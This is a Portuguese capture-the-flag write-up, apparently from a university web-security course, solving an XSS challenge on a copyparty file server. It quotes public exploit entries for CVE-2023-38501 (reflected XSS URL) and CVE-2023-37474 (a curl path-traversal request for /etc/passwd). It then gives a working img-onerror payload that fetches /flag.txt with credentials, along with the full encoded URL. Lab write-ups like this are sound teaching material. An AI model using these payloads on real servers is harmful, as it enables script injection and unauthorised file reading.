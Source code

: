 # CTF - Semana 7

**Objetivo**  
Explorar injeção de código e o contexto de execução de páginas em segurança web utilizando cross-site scripting (XSS).

## 1. Exploração da Vulnerabilidade

### Ambiente

Este desafio consiste em atacar uma página web. O primeiro passo em desafios web é sempre navegar pela página como um utilizador normal e estudar os pedidos HTTP feitos pela página. Para isso, podes usar as Developer Tools do teu browser ou outras extensões dedicadas.

### Contexto

Encontra-se um servidor web de file sharing no endereço [http://ctf-fsi.fe.up.pt:5007](http://ctf-fsi.fe.up.pt:5007).

Queres encontrar a flag, que se encontra num local óbvio do servidor, mas não pode ser acedida diretamente. A maior dica para resolver este desafio é o que fizeste no guião SEED Labs sobre XSS. A construção deste desafio é simplificada, no sentido em que é suposto fazeres o ataque à própria página a correr no teu browser. Num cenário mais real, utilizarias a mesma técnica para correr código, por exemplo, no contexto de outro utilizador e ler ficheiros confidenciais aos quais não deverias ter acesso.

### Tarefas

1. **Encontra o ficheiro referente à flag no servidor. Porque é que não consegues aceder diretamente à flag secreta?**

2. **Este serviço é popular, até pode ser que tenha vulnerabilidades conhecidas. Será que podem ajudar a que acedas à flag?**

3. **Qual é o tipo da vulnerabilidade de XSS (Reflected, Stored ou DOM) que te permitiu aceder à flag?**

>**AVISO: O exploit esperado não funciona no Firefox. Usem sffv outro browser como Chrome, Safari ou Edge.**

---

## 2. Exploração da Vulnerabilidade no Servidor

1. Tarefa 1
    O Ficheiro referente à flag é flag.txt. Não conseguimos aceder diretamente à flag secreta porque o servidor não nos permite aceder diretamente.
    Sendo o conteodo do ficheiro flag.txt.

    ```html
    Nice try, I am only accessible via JavaScript shenanigans.
    ```

    O serviço usado chama se `copyparty`.

2. Tarefa 2
   Foram encontrasos 2 CVE sobre o copyparty, CVE-2023-38501 and CVE-2023-37474

   - CVE-2023-38501
  
    ```bash
    # Exploit Title: copyparty v1.8.6 - Reflected Cross Site Scripting (XSS)
    # Date: 23/07/2023
    # Exploit Author: Vartamtezidis Theodoros (@TheHackyDog)
    # Vendor Homepage: https://github.com/9001/copyparty/
    # Software Link: https://github.com/9001/copyparty/releases/tag/v1.8.6
    # Version: <=1.8.6
    # Tested on: Debian Linux
    # CVE : CVE-2023-38501

    #Description
    Copyparty is a portable file server. Versions prior to 1.8.6 are subject to a reflected cross-site scripting (XSS) Attack. 

    Vulnerability that exists in the web interface of the application could allow an attacker to execute malicious javascript code by tricking users into accessing a malicious link.

    #POC
    https://localhost:3923/?k304=y%0D%0A%0D%0A%3Cimg+src%3Dcopyparty+onerror%3Dalert(1)%3E
    ```

    Este CVE Consiste em um ataque de XSS Refletido, onde o atacante consegue injetar código malicioso no servidor e executar scripts maliciosos.

    - CVE-2023-37474

    ```bash
    # Exploit Title: copyparty 1.8.2 - Directory Traversal
    # Date: 14/07/2023
    # Exploit Author: Vartamtzidis Theodoros (@TheHackyDog)
    # Vendor Homepage: https://github.com/9001/copyparty/
    # Software Link: https://github.com/9001/copyparty/releases/tag/v1.8.2
    # Version: <=1.8.2
    # Tested on: Debian Linux
    # CVE : CVE-2023-37474

    #Description
    Copyparty is a portable file server. Versions prior to 1.8.2 are subject to a path traversal vulnerability detected in the `.cpr` subfolder. The Path Traversal attack technique allows an attacker access to files, directories, and commands that reside outside the web document root directory.

    #POC
    curl -i -s -k -X  GET 'http://127.0.0.1:3923/.cpr/%2Fetc%2Fpasswd'
    ```

    Este CVE Consiste em um ataque de Directory Traversal, onde o atacante consegue acessar arquivos fora do diretório raiz do servidor.

3. Tarefa 3

    A vulnerabilidade de XSS que permitiu aceder à flag é Reflected XSS.

    Com este CVE podemos injetar código malicioso no servidor apartir do componente onerror do elemento `<img>` do HTML.

    No Url do servidor, quando tentamos criar uma img esta da erro o que faz com que ele corra o script malicioso.

    O payload usado foi:

    ```html
    k204=y

    <img src="x" onerror="fetch('/flag.txt',{credentials:'include'}).then(response=>response.text()).then(data=>alert(data)).catch(err=>console.error(err))">
    ```

    Neste payload e usado o comando fetch para fazer um pedido ao servidor para obter o conteúdo do ficheiro flag.txt sendo o primeiro argumento o URL do ficheiro e o segundo argumento as credenciais do pedido para garantir que as cookies e a autenticaçao HTTP são enviadas.

    De seguida e passada a resposta para um alerta que mostra o conteúdo do ficheiro. Se ocorrer algum erro, este é mostrado no console.

    O payload injeta um script malicioso que faz um fetch do ficheiro flag.txt e mostra o conteúdo do ficheiro.

    Assim o URL final é: <https://ctf-fsi.fe.up.pt:5007/?k304=y%0D%0A%0D%0A%3Cimg%20src=%22x%22%20onerror=%22fetch(%27/flag.txt%27,{credentials:%27include%27}).then(response=%3Eresponse.text()).then(data=%3Ealert(data)).catch(err=%3Econsole.error(err))%22%3E>

    Usando esse URL obtemos a flag que aparece no alerta.

## Flag

`flag{youGotMeReallyGood}`
